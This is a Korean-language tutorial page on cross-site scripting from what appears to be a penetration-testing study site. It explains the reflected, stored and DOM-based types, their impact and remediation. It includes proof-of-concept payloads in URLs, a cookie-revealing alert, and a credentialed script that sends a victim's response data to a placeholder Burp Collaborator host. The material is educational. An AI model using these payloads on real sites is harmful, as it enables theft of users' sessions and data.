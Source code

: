 ```yaml
---
title: XSS (Cross-Site Scripting)
layout: default
parent: Web Penetration Test
nav_order: 2.3
description: "Web hacking"
---
```


# Cross Site Scripting (XSS)

{: .no_toc }

## Table of Contents
{: .no_toc .text-delta }

1. TOC
{:toc}


XSS는 웹사이트에 악성 스크립트 `<script>` 태그나 HTML의 `on` 태그 속성을 이용해서 클라이언트 측 브라우저에서 실행되도록 하는 공격입니다.

XSS의 공격은 크게 3가지 유형으로 나뉩니다.

## Reflected XSS (반사형) 
- 악성스크립트가 포함된 URL을 Victim에게 보내는 형식으로 이루어집니다.

{: .important-title }
> Proof of Concept
> {: .label .label-blue }
> ``` 
> https://<website>?url=<script>alert("XSS")</script> 
>```

- Victim이 해당 URL을 클릭하면, 서버에서 해당 악성 스크립트를 Victim의 브라우저로 **"반사 (Reflect)"** 해서 보냅니다.
- 브라우저는 해당 스크립트를 신뢰하는 웹사이트에서 온것으로 간주하고 실행합니다.

## Stored XSS (저장형)
- 악성 스크립트를 게시판, 댓글, 포럼 등 웹 서버의 데이터베이스에 저장하는것을 의미합니다.
- 다른 사용자가 해당 페이지에 접속하면, 서버에 저장된 스크립트가 해당 사용자 브라우저에서 실행이 됩니다.
- Reflected XSS와 다르게 특정 URL을 클릭할 필요 없이 불특정 다수에게 피해를 줄 수 있습니다.

## DOM-based XSS (DOM 기반형)
- 서버를 거치지 않고 사용자 브라우저의 Document Object Model (DOM) 환경에서 공격이 이루어 집니다.
- 주로 자바스크립트를 이용해 HTML 페이지를 조작하는 방식으로 작동합니다

{: .important-title }
> Proof of Concept
> {: .label .label-blue }
> ``` 
> https://<website>/#javascript:alert("XSS") 
>```

- URL의 매개변수 값 등을 조작해 스크립트를 실행시킵니다.

{: .warning }
> 많은분들이 "Reflected XSS" 와 혼동을 하시는 분들이 많습니다. 두 종류의 차이점은 악성 스크립트가 주입되는 시점에서 찾을수 있습니다.
> 1. DOM-based XSS 공격은 네트워크에서 서버에게 별도 요청없이 URL 주소 해시에 심은 악성 스크립트가 실행이 됩니다.
> 2. Reflected XSS 공격은 악성 스크립트가 일단 서버에 전달이 되어야합니다. 

## XSS Impact 
- 사용자 권한을 탈취할 수 있습니다. (Impersonate User).
- 사용자 데이터를 읽거나 쓸수 있습니다. (Read and Write data that user is accessible).
- 사용자의 로그인 계정을 탈취할 수 있습니다. (Capture Login creds).
- 악성코드 삽입 (Inject Trojan).
- 웹사이트 UI변경 (Virtual Defacement).

## XSS Attack Chain
- Steal Cookie (쿠키를 탈취할 수 있습니다)

{: .important-title }
> Proof of Concept
> {: .label .label-blue }
> 쿠키를 팝업창에 띄우기
> ``` 
> https://<website>?url=<script>alert(document.cookie)</script> 
>```

{: .important-title }
> Proof of Concept
> {: .label .label-blue }
> 쿠키를 Burp Collaborator (Attacker 서버로 보낼때)
> ``` 
> https://<website>?url=[The script under] 
>```
> **[The script under]**:
>```js
> <script>
>   var xhr = new XMLHttpRequest();
>   var url = 'VICTIM URL'
>   xhr.onreadystatechange = function() {
>       if (xhr.readyState == XMLHttpRequest.DONE) {
>           fetch('https://BURPCOLLABORATOR/' + xhr.responseText)
>       }
>   }
>   xhr.open('GET', url, true);
>   xhr.withCredentials = true;
>   xhr.send(null);
> </script>
>```

- Capture Password (로그인 크레덴셜 탈취)
- Bypass CSRFToken (CSRF 토큰을 우회할 수 있습니다)

## Remediation

- **입력값 검증**: 사용자로부터 입력받는 모든 데이터에 대해 `< > " ' & javascript on` 같은 특수문자나 스크립트를 필터링 또는 이스케이핑 처리를 해야 됩니다. Whitelist 방식을 쓰는것이 가장 바람직 합니다.
- **출력 인코딩**: 서버에서 브라우저로 데이터를 보낼 때, 스크립트가 실행되지 않도록 HTML Entity로 변환해야 합니다.
- **보안 헤더 설정 (CSP)**: Content-Security-Policy (CSP) 같은 보안 정책을 사용해 어떤 스크립트를 실행할지 미리 정의합니다.